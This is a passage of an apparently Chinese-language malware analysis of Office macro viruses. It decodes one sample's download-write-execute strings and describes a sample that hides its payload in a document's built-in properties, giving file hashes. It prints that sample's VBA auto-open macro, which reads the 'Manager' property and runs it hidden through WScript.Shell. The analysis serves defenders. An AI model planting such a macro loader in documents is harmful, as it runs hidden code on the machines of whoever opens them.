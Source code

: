 解密为，

```
Microsoft.XMLHTTP
Adodb.stream
shell.Application
Wscript.shell
Process
GeT
Temp
Type
open
write
responseBody
savetofile
hendibe.exe

```

几个字符串呈现出非常明显的意图，下载（Microsoft.XMLHTTP）+ 写文件（Adodb.stream）+ 执行（shell.Application / Wscript.shell）。

此样本因为代码有问题，没能成功运行起来。找到宏代码中使用 Microsoft.XMLHTTP 对象下载文件的位置，加上断点调试，起先因为作者疏忽，忘记书写一个双引号，导致编译失败，

![p15](http://drops.javaweb.org/uploads/images/3d992bd10551d0baea1b955677ff1f464a9926e6.jpg)

之后，运行到下载文件处时，出现了报错。

![p16](http://drops.javaweb.org/uploads/images/1b908e3bbdd7475fa1f9db8712a235af27389acc.jpg)

0x03 文档内建属性隐藏代码
===============

* * *

此类病毒把代码核心恶意部分放入文档的内建属性中。

*   样本文件md5：0ce81eda6b6886163cf5dadffecc0df9
*   sha256: 23d07a51f7a14a95a1efc55ad3f18cd5a71607156cd325256d43f0b68cfb62cd

virustotal 扫描结果:

![p17](http://drops.javaweb.org/uploads/images/08edfa1f5940edd419b7aaae0313186575e954df.jpg)

此样本的vba 宏代码只有1个文件，很简短，

```
Attribute VB_Name = "NewMacros"
Sub Auto_Open()
Call winshell
End Sub

Sub AutoOpen()
Call winshell
End Sub

Function winshell() As Object
    On Error Resume Next
    Err.Clear

    Dim ps As String
    ps = ActiveDocument.BuiltInDocumentProperties("Manager").Value
    Dim Obj As Object
    Set Obj = CreateObject("WScript.Shell")
    Obj.Run ps, 0

Application.DisplayAlerts = False
End Function

```